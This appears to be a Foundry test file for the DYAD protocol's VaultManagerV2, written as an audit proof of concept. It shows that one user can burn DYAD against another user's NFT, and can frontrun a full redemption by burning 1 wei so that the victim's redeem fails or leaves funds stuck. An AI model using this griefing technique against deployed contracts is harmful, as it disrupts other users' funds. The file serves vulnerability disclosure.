 ```solidity

        vm.prank(vaultManagerLicenser.owner());
        vaultManagerLicenser.add(address(vaultManagerV2));
    }

    function mintDNFTAndDepositToWethVault(address user, uint256 amountAsset, uint256 amountDyad)
        public
        returns (uint256 nftId)
    {
        vm.deal(user, 2 ether);
        vm.startPrank(user);
        nftId = dNft.mintNft{value: 2 ether}(user);

        vaultManagerV2.add(nftId, address(wethVault));

        weth.mint(user, amountAsset);
        weth.approve(address(vaultManagerV2), amountAsset);

        vaultManagerV2.deposit(nftId, address(wethVault), amountAsset);
        vaultManagerV2.mintDyad(nftId, amountDyad, user);
        vm.stopPrank();
    }

    function test_decrease_mintedDyad_of_another() public {
        address bob = makeAddr("Bob");
        address alice = makeAddr("Alice");

        uint256 bobNft = mintDNFTAndDepositToWethVault(bob, 1.5e18, 1000e18);
        uint256 aliceNft = mintDNFTAndDepositToWethVault(alice, 1.5e18, 1000e18);

        vm.prank(bob);
        vaultManagerV2.burnDyad(aliceNft, 1e18);

        assertGt(dyad.balanceOf(alice), dyad.mintedDyad(address(vaultManagerV2), aliceNft));

        vm.roll(block.number + 1);

        vm.startPrank(alice);
        console.log("Alice DYAD balance before redeem:", dyad.balanceOf(alice)); // 1000 DYAD
        vaultManagerV2.redeemDyad(aliceNft, address(wethVault), dyad.mintedDyad(address(vaultManagerV2), aliceNft), alice); // She can redeem max 999 DYAD
        console.log("Alice DYAD balance after redeem:    ", dyad.balanceOf(alice)); // 1 DYAD left and cannot be redeemed
        vm.stopPrank();
    }
    
    function test_decrease_mintedDyad_of_another_revert() public {
        address bob = makeAddr("Bob");
        address alice = makeAddr("Alice");

        uint256 bobNft = mintDNFTAndDepositToWethVault(bob, 1.5e18, 1000e18);
        uint256 aliceNft = mintDNFTAndDepositToWethVault(alice, 1.5e18, 1000e18);

        vm.prank(bob);
        vaultManagerV2.burnDyad(aliceNft, 1); // Frontrunning full redeem by burning 1 wei

        assertGt(dyad.balanceOf(alice), dyad.mintedDyad(address(vaultManagerV2), aliceNft));

        vm.roll(block.number + 1);

        vm.startPrank(alice);
        vaultManagerV2.redeemDyad(aliceNft, address(wethVault), dyad.balanceOf(alice), alice); // She can redeem max 1000 DYAD - 1 wei
```